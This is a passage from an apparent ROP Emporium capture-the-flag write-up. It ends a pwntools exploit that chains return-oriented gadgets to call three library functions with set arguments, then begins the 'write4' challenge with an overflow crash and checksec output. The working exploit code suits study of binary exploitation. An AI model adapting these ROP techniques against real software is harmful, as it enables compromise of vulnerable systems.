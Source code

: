```python
# Step 5: First ROP chain - callme_one(0xdeadbeef..., 0xcafebabe..., 0xd00df00d...)
payload += rop_gadgets
payload += p64(0xdeadbeefdeadbeef)  # RDI
payload += p64(0xcafebabecafebabe)  # RSI
payload += p64(0xd00df00dd00df00d)  # RDX
payload += callme_one               # Call function

# --------------------------------------------------
# Step 6: Second ROP chain - callme_two(0xdeadbeef..., ...)
payload += rop_gadgets
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += callme_two

# --------------------------------------------------
# Step 7: Third ROP chain - callme_three(0xdeadbeef..., ...)
payload += rop_gadgets
payload += p64(0xdeadbeefdeadbeef)
payload += p64(0xcafebabecafebabe)
payload += p64(0xd00df00dd00df00d)
payload += callme_three

# --------------------------------------------------
# Step 8: Send the payload and get the result
io.sendline(payload)
print(io.clean().decode())  # Print output (should include the flag)
```
## Write4

On completing our usual checks for interesting strings and symbols in this binary we're confronted with the stark truth that our favourite string `"/bin/cat flag.txt"` is not present this time. Although you'll see later that there are other ways around this problem, such as resolving dynamically loaded libraries and using the strings present in those, we'll stick to the challenge goal which is learning how to get data into the target process's virtual address space via the magic of ROP.

```bash
┌──(venv)─(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/write4]
└─$ ./write4
write4 by ROP Emporium
x86_64

Go ahead and give me the input already!

> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Thank you!
zsh: segmentation fault  ./write4

┌──(venv)─(at0m㉿DESKTOP-HSPMATJ)-[/mnt/…/Temp/rop/rop_emporium_all_challenges/write4]
└─$ checksec write4
[*] '/mnt/c/Users/At0m/Temp/rop/rop_emporium_all_challenges/write4/write4'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
```
